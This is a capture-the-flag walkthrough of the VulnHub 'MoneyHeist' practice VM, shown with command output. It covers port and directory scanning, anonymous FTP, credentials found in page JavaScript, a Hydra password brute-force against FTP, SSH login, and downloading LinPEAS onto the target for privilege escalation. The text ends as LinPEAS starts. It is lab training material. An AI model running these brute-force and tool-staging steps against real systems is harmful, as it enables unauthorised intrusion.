







#Money #Heist #MoneyHeist #CatchUs #VulnHub #Linux 
### [MoneyHeist: Catch Us If You Can ~ VulnHub](https://www.vulnhub.com/entry/moneyheist-catch-us-if-you-can,605/)

- **Name**: MoneyHeist: Catch Us If You Can
- **Date release**: 20 Nov 2020
- **Author**: [Anant Chauhan](https://www.vulnhub.com/author/anant-chauhan,757/)
- **Series**: [MoneyHeist](https://www.vulnhub.com/series/moneyheist,409/)

---
---

### Description

Difficulty level: N\A
There is one flag, and you have to stop the heist. It is CTF like VM.
Here is a tip from my side:- keep Patience and do the enumeration process in a good manner.
Works better with VirtualBox.
If you want any hint, ping me anytime, and don't forget to share your feedback. I'll be glad :)
This works better with VirtualBox rather than VMware.


### File Information

- **Filename**: Money-Heist-catch-me-if-you-can.ova
- **File size**: 844 MB
- **MD5**: E538AD74EA6977AC2D008A54DE855574
- **SHA1**: 45B4EB604CB16363209278C20F5F9A6965B94704

---

#### [MoneyHeist: Catch Us If You Can || VulnHub Walkthrough](https://youtu.be/6KW4fAp4Nxc?si=W-X9a8FakGV1OFUj)


---

# Enumeration

sudo netdiscover -i eth1
nmap -sC -sV 192.168.56.120

Port 21 FTP
Port 80 HTTP 




```sh
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.120
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-25 00:10 CET
Nmap scan report for 192.168.56.120
Host is up (0.0013s latency).                                                                         
Not shown: 998 closed tcp ports (conn-refused)                                                        
PORT   STATE SERVICE VERSION                                                                          
21/tcp open  ftp     vsftpd 3.0.3                                                                     
| ftp-syst:                                                         
|   STAT:                                                             
| FTP server status:                                                            
|      Connected to ::ffff:192.168.56.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             138 Nov 19  2020 note.txt
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Money Heist
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
```

---

### FTP

```sh
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.120

Connected to 192.168.56.120.
220 (vsFTPd 3.0.3)
Name (192.168.56.120:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50672|)                                                        
150 Here comes the directory listing.                                                                 
-rw-r--r--    1 0        0             138 Nov 19  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||34289|)
150 Opening BINARY mode data connection for note.txt (138 bytes).
100% |*********************************************************|   138       42.03 KiB/s    00:00 ETA
226 Transfer complete.
138 bytes received in 00:00 (26.19 KiB/s)
ftp> exit
221 Goodbye.     
```

```note.txt
//*//  
Hi I'm Ángel Rubio partner of investigator Raquel Murillo. 
We need your help to catch the professor, will you help us ?  
//*//
```

---
### HTTP


```sh
┌──(kali㉿kali)-[~]
└─$ wget http://192.168.56.120/img/team.jpeg
--2025-03-25 00:49:41--  http://192.168.56.120/img/team.jpeg
Connecting to 192.168.56.120:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 180550 (176K) [image/jpeg]
Saving to: ‘team.jpeg’

team.jpeg                    100%[===========================================>] 176.32K  --.-KB/s    in 0.006s  

2025-03-25 00:49:41 (31.1 MB/s) - ‘team.jpeg’ saved [180550/180550]

┌──(kali㉿kali)-[~]
└─$ exiftool team.jpeg 
ExifTool Version Number         : 12.76
File Name                       : team.jpeg
Directory                       : .
File Size                       : 181 kB
File Modification Date/Time     : 2020:10:06 17:59:28+02:00
File Access Date/Time           : 2025:03:25 00:49:41+01:00
File Inode Change Date/Time     : 2025:03:25 00:49:41+01:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 1280
Image Height                    : 720
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1280x720
Megapixels                      : 0.922

```

---

## Gobuster

```sh
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.120/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.120/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:           /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 314] [--> http://192.168.56.120/img/]
/robots               (Status: 301) [Size: 317] [--> http://192.168.56.120/robots/]
/gate                 (Status: 301) [Size: 315] [--> http://192.168.56.120/gate/]
/server-status        (Status: 403) [Size: 279]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```


### Robots - Tokyo

The image “http://192.168.56.120/robots/tokyo.jpeg” cannot be displayed because it contains errors.

```sh
┌──(kali㉿kali)-[~]
└─$ exiftool tokyo.jpeg 
ExifTool Version Number         : 12.76
File Name                       : tokyo.jpeg
Directory                       : .
File Size                       : 162 kB
File Modification Date/Time     : 2020:11:19 18:26:51+01:00
File Access Date/Time           : 2025:03:25 00:55:38+01:00
File Inode Change Date/Time     : 2025:03:25 00:55:38+01:00
File Permissions                : -rw-rw-r--
Error                           : File format error

┌──(kali㉿kali)-[~]
└─$ file tokyo.jpeg   
tokyo.jpeg: data

┌──(kali㉿kali)-[~]
└─$ hexeditor tokyo.jpeg
```

#### Hex Editor tokyo.jpeg



```
00000000  0A 4A EE E0  00 10 4A 46   49 46 00 01  01 01 00 60

// Change the first 4 bytes
0A 4A EE E0 => FF D8 FF E0


```


---

### Gate

```sh
┌──(kali㉿kali)-[~]
└─$ wget http://192.168.56.120/gate/gate.exe    
--2025-03-25 01:11:28--  http://192.168.56.120/gate/gate.exe
Connecting to 192.168.56.120:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 171 [application/x-msdos-program]
Saving to: ‘gate.exe’

gate.exe                     100%[===========================================>]     171  --.-KB/s    in 0s      

2025-03-25 01:11:28 (58.1 MB/s) - ‘gate.exe’ saved [171/171]

┌──(kali㉿kali)-[~]
└─$ file gate.exe     
gate.exe: Zip archive data, made by v3.0 UNIX, extract using at least v1.0, last modified, last modified Sun, Nov 16 2020 11:07:30, uncompressed size 13, method=store

┌──(kali㉿kali)-[~]
└─$ unzip gate.exe -d gate
Archive:  gate.exe
file #1:  bad zipfile offset (local header sig):  0

┌──(kali㉿kali)-[~]
└─$ zip -FF gate.exe --out gate_fixed.zip
Fix archive (-FF) - salvage what can
 Found end record (EOCDR) - says expect single disk archive
Scanning for entries...
Central Directory found...
no local entry: note
EOCDR found ( 1    149)...
        zip warning: zip file empty
    
┌──(kali㉿kali)-[~]
└─$ strings gate.exe 
noteUT
/BankOfSp41n
noteUT

```

---

## /BankOfSp41n


```sh
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.120/BankOfSp41n -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

** No clues **


┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.120/BankOfSp41n -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.120/BankOfSp41n
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 384]
/login.php            (Status: 200) [Size: 1434]
/.html                (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================


"With this command we found login.php as our next clue"

```


## Login.php


```
If you check the page source for this web page, you will find some JavaScript called "CR3D5.js"

To view the page source in Firefox, you can use the shortcut Ctrl + U (or Command + U on Mac). Alternatively, you can right-click on the webpage and select "View Page Source" from the context menu.
```

```javascript
function check(form)
{

	if(form.userid.value == "anonymous" && form.pwd.value == "B1tCh")
	{
	        return true;
	}
	else
	{
	        alert("Hahaha! Wrong Person!")
	        return false;
	}
}
```

So we got the username and password for the login
- anonymous
- B1tCh

#### BankOfSp41n/indax.html


Again, check the page source (CTRL + U)

There is a comment about Arturo Román
```html
  <!-- Contact Section -->
  <div class="w3-container w3-padding-64" id="contact">
    <h1>Contact</h1><br>
    
    <p class="w3-text-blue-grey w3-large"><b>Current Location Bank Of Spain</b></p>
    
    <form action="[/action_page.php](view-source:http://192.168.56.120/action_page.php)" target="_blank">
      <p><input class="w3-input w3-padding-16" type="text" placeholder="Name" required name="Name"></p>
     
      <p><input class="w3-input w3-padding-16" type="datetime-local" placeholder="Date and time" required name="date" value="2017-11-16T20:00"></p>
      <!-- Hey! help please I'm Arturo Román they are very-dangerous and one more thing may be  old things won't work they are UPDATED, please help me!!! -->
      <p><button class="w3-button w3-light-grey w3-section" type="submit">SEND MESSAGE</button></p>
    </form>
  </div>
```

---

## Hydra 🐉🐲

```sh
┌──(kali㉿kali)-[~]
└─$ hydra -l arturo -P /usr/share/wordlists/rockyou.txt ftp://192.168.56.120
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-02 22:04:51
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.56.120:21/
[STATUS] 272.00 tries/min, 272 tries in 00:01h, 14344127 to do in 878:56h, 16 active
[STATUS] 279.67 tries/min, 839 tries in 00:03h, 14343560 to do in 854:49h, 16 active
[21][ftp] host: 192.168.56.120   login: arturo   password: corona
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-02 22:11:38

```

#### login: **arturo**
#### password: **corona**

with the username "**arturo**" we found out that the password is "**corona**"




---
---

# Foothold 🦶

## FTP

```sh
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.120

Connected to 192.168.56.120.
220 (vsFTPd 3.0.3)
Name (192.168.56.120:kali): arturo
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||25587|)
150 Here comes the directory listing.
drwxr-xr-x    4 1002     1002         4096 Nov 19  2020 .
drwxr-xr-x    6 0        0            4096 Oct 15  2020 ..
-rw-r--r--    1 1002     1002          220 Oct 10  2020 .bash_logout
-rw-rw-r--    1 1002     1002           15 Nov 16  2020 .bashr
-rw-r--r--    1 1002     1002         3771 Oct 10  2020 .bashrc
drwx------    2 1002     1002         4096 Oct 11  2020 .cache
drwxrwxr-x    2 1002     1002         4096 Oct 12  2020 .nano
-rw-r--r--    1 1002     1002          655 Oct 10  2020 .profile
-rw-r--r--    1 0        0             215 Oct 12  2020 secret.txt
226 Directory send OK.
ftp> get secret.txt
local: secret.txt remote: secret.txt
229 Entering Extended Passive Mode (|||20863|)
150 Opening BINARY mode data connection for secret.txt (215 bytes).
100% |********************************************************************************************************************************************************************|   215       14.45 KiB/s    00:00 ETA
226 Transfer complete.
215 bytes received in 00:00 (11.44 KiB/s)
ftp> 
```


### secret.txt
```secret
/*/ Arturo gets phone somehow and he call at police headquater /*/

	" Hello, I'm Arturo, I'm stuck in there with almost 65-66 hostages,
       	and they are total 8 with weapons, one name is Denver, Nairo.... "
```

possible hints:
- 65-66 hostages
- 8 with weapons
- Denver, Nairo

Let's check the Home directory

```sh
ftp> pwd
Remote directory: /home/arturo
ftp> cd /
250 Directory successfully changed.
ftp> pwd
Remote directory: /
ftp> cd /home
250 Directory successfully changed.
ftp> pwd
Remote directory: /home
ftp> ls -al
229 Entering Extended Passive Mode (|||24996|)
150 Here comes the directory listing.
drwxr-xr-x    6 0        0            4096 Oct 15  2020 .
drwxr-xr-x   23 0        0            4096 Oct 05  2020 ..
drwxr-xr-x    4 1002     1002         4096 Nov 19  2020 arturo
drwxrwx---    2 1003     1003         4096 Nov 19  2020 denver
drwxrwx---    3 1004     1004         4096 Nov 19  2020 nairobi
drwxrwx---    4 1000     1000         4096 Nov 19  2020 tokyo
226 Directory send OK.
ftp> 
ftp> cd denver
550 Failed to change directory.
ftp> cd nairobi
550 Failed to change directory.
ftp> cd tokyo
550 Failed to change directory.
```

---

Time to use NMAP again and check for ports!

```sh
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.120 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 22:28 CEST
Nmap scan report for 192.168.56.120
Host is up (0.030s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             138 Nov 19  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Money Heist
|_http-server-header: Apache/2.4.18 (Ubuntu)
55001/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:a6:ca:17:f6:b9:56:01:56:97:60:d1:f5:89:61:9e (RSA)
|   256 5b:f3:40:09:8e:41:e5:b7:7b:62:ee:91:a8:b2:fb:ea (ECDSA)
|_  256 df:a4:da:43:0e:37:47:06:76:a1:e4:c8:3f:88:18:a4 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.22 seconds

```

---

The key difference between these two `nmap` commands lies in the **port scanning scope**:
### **1️⃣ `nmap -sC -sV 192.168.56.120`**
- **`-sC`** → Runs default scripts from the Nmap Scripting Engine (NSE).  
- **`-sV`** → Enables version detection for services on open ports.  
- **No `-p-` flag** → By default, Nmap scans only the **1000 most common ports**.

✅ **Use case:** Faster scan that focuses on the most frequently used ports.

---
### **2️⃣ `nmap -sC -sV 192.168.56.120 -p-`**
- **`-sC`** → Runs default NSE scripts.  
- **`-sV`** → Enables version detection.  
- **`-p-`** → Scans **all 65,535 ports**, from **1 to 65,535**, instead of just the top 1000.

✅ **Use case:** Comprehensive scan to find services running on uncommon ports, but takes longer.

---

### SSH

```SH
┌──(kali㉿kali)-[~]
└─$ ssh arturo@192.168.56.120

ssh: connect to host 192.168.56.120 port 22: Connection refused
                                                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ ssh arturo@192.168.56.120 -p 55001

The authenticity of host '[192.168.56.120]:55001 ([192.168.56.120]:55001)' can't be established.
ED25519 key fingerprint is SHA256:gD0iLgmeXcwuuD1rCwVuZ2PU/ntvIRWuPp9SqMYCShQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.56.120]:55001' (ED25519) to the list of known hosts.


:::       ::: :::::::::: :::        ::::::::   ::::::::  ::::    ::::  :::::::::: 
:+:       :+: :+:        :+:       :+:    :+: :+:    :+: +:+:+: :+:+:+ :+:        
+:+       +:+ +:+        +:+       +:+        +:+    +:+ +:+ +:+:+ +:+ +:+        
+#+  +:+  +#+ +#++:++#   +#+       +#+        +#+    +:+ +#+  +:+  +#+ +#++:++#   
+#+ +#+#+ +#+ +#+        +#+       +#+        +#+    +#+ +#+       +#+ +#+        
 #+#+# #+#+#  #+#        #+#       #+#    #+# #+#    #+# #+#       #+# #+#        
  ###   ###   ########## ########## ########   ########  ###       ### ########## 

                My eyes on you, so be aware about your commands
                        !!Keep in your mind!!

 
arturo@192.168.56.120's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


98 packages can be updated.
75 updates are security updates.


Last login: Thu Apr  3 01:46:12 2025
arturo@Money-Heist:~$ ls -al
total 36
drwxr-xr-x 4 arturo arturo 4096 Nov 19  2020 .
drwxr-xr-x 6 root   root   4096 Oct 15  2020 ..
-rw-r--r-- 1 arturo arturo  220 Oct 10  2020 .bash_logout
-rw-rw-r-- 1 arturo arturo   15 Nov 16  2020 .bashr
-rw-r--r-- 1 arturo arturo 3771 Oct 10  2020 .bashrc
drwx------ 2 arturo arturo 4096 Oct 11  2020 .cache
drwxrwxr-x 2 arturo arturo 4096 Oct 12  2020 .nano
-rw-r--r-- 1 arturo arturo  655 Oct 10  2020 .profile
-rw-r--r-- 1 root   root    215 Oct 12  2020 secret.txt
arturo@Money-Heist:~$ cd /home
arturo@Money-Heist:/home$ ls -al
total 24
drwxr-xr-x  6 root    root    4096 Oct 15  2020 .
drwxr-xr-x 23 root    root    4096 Oct  5  2020 ..
drwxr-xr-x  4 arturo  arturo  4096 Nov 19  2020 arturo
drwxrwx---  2 denver  denver  4096 Nov 19  2020 denver
drwxrwx---  3 nairobi nairobi 4096 Nov 19  2020 nairobi
drwxrwx---  4 tokyo   tokyo   4096 Nov 19  2020 tokyo
arturo@Money-Heist:/home$ cd denver/
-bash: cd: denver/: Permission denied

arturo@Money-Heist:/home$ sudo -l
[sudo] password for arturo: 
Sorry, user arturo may not run sudo on Money-Heist.
```

since no permission it is time for Privilege Escalation!


---
---

# Privilege Escalation

## LinPeas 🫛☺️🫛

https://github.com/peass-ng/PEASS-ng

transfer the linpeas.sh to the target, use a http.server to do so!

```sh
# Create HTTP Server
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...


# On the target machine, change the directory to /tmp
arturo@Money-Heist:/home$ sudo -l
[sudo] password for arturo: 
Sorry, user arturo may not run sudo on Money-Heist.
arturo@Money-Heist:/home$ 
::1             ff02::1         ff02::2         ip6-allnodes    ip6-allrouters  ip6-localhost   ip6-loopback    localhost       Money-Heist

arturo@Money-Heist:/home$ cd /tmp/
arturo@Money-Heist:/tmp$ wget http://192.168.56.52:8000/linpeas.sh
--2025-04-03 02:21:17--  http://192.168.56.52:8000/linpeas.sh
Connecting to 192.168.56.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860337 (840K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                              100%[=============================================================================>] 840.17K  --.-KB/s    in 0.1s    

2025-04-03 02:21:18 (6.76 MB/s) - ‘linpeas.sh’ saved [860337/860337]

arturo@Money-Heist:/tmp$

# Check file and permission
arturo@Money-Heist:/tmp$ ls -al
total 876
drwxrwxrwt  8 root   root     4096 Apr  3 02:21 .
drwxr-xr-x 23 root   root     4096 Oct  5  2020 ..
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .font-unix
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .ICE-unix
-rw-rw-r--  1 arturo arturo 860337 Jul  7  2024 linpeas.sh
drwx------  3 root   root     4096 Apr  2 22:34 systemd-private-8ba3024105614566a6de88b96e5f3ab9-systemd-timesyncd.service-POPGPC
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .Test-unix
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .X11-unix
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .XIM-unix

# Give execution permission to the file
arturo@Money-Heist:/tmp$ chmod +x linpeas.sh

arturo@Money-Heist:/tmp$ ls -al
total 876
drwxrwxrwt  8 root   root     4096 Apr  3 02:26 .
drwxr-xr-x 23 root   root     4096 Oct  5  2020 ..
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .font-unix
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .ICE-unix
-rwxrwxr-x  1 arturo arturo 860337 Jul  7  2024 linpeas.sh
drwx------  3 root   root     4096 Apr  2 22:34 systemd-private-8ba3024105614566a6de88b96e5f3ab9-systemd-timesyncd.service-POPGPC
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .Test-unix
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .X11-unix
drwxrwxrwt  2 root   root     4096 Apr  2 22:34 .XIM-unix
arturo@Money-Heist:/tmp$ 

# Execute linpeas.sh
arturo@Money-Heist:/tmp$ ./linpeas.sh
```


---

#### LinPeas content
```sh
arturo@Money-Heist:/tmp$ ./linpeas.sh


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
